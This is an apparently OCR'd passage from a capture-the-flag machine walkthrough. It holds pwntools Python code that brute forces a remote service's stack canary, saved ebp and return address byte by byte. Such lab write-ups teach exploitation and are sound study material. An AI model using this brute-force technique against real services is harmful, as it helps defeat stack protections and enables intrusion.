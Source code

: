 ```
    with log.progress(f'Brute forcing {obj}') as p:
        for i in range(num_bytes):
            current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')  # write the string '0x________________'
            p.status(f'Found {len(result)} bytes: {current}')
            byte = None
            context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
            while byte == None:          # If no byte found, over range again
                byte = get_next_byte(result, range(0,255),i+1,header)
            result = result + byte
            context.log_level = 'info'   # Re-enable logging
        p.success(f'Finished in {time.time() - start:.2f} seconds')

    log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
    return result

```

```
log.info("Starting brute force")
   
canary = brute_word(8, 'Canary')
ebp =    brute_word(8, 'ebp',b"",canary)
rip =    brute_word(8, 'rip',b"",canary+ebp)
```

![Image bruteforce ](https://github.com/roughiz/Intense-walktrough/blob/main/images/brtcanary.png)


